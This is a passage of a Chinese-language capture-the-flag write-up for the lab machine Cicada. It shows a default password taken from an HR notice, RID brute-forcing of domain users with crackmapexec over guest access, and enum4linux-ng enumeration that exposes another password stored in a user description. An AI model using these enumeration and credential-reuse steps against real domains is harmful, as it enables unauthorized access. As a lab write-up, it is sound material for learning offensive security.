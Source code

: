 有一个*Notice from HR.txt*，内容如下：

   > Dear new hire!
   >
   > Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.
   >
   > Your default password is: Cicada$M6Corpb*@Lp#nZp!8
   >
   > To change your password:
   >
   > 1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
   > 2. Once logged in, navigate to your account settings or profile settings section.
   > 3. Look for the option to change your password. This will be labeled as "Change Password".
   > 4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
   > 5. After changing your password, make sure to save your changes.
   >
   > Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.
   >
   > If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.
   >
   > Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!
   >
   > Best regards,
   > Cicada Corp

获得一个默认密码`Cicada$M6Corpb*@Lp#nZp!8`

爆破`smb_rid`

```shell
╭─bamuwe@Mac ~/Desktop
╰─$ crackmapexec smb cicada.htb -u "guest" -p ''  --rid-brute|grep 'SidTypeUser'
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

通过获得的用户名，密码再进行枚举：

```shell
enum4linux-ng -A -u "michael.wrightson" -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
...etc...
'1108':
  username: david.orelious
  name: (null)
  acb: '0x00000210'
  description: Just in case I forget my password is aRt$Lp#7t*VQ!3
```

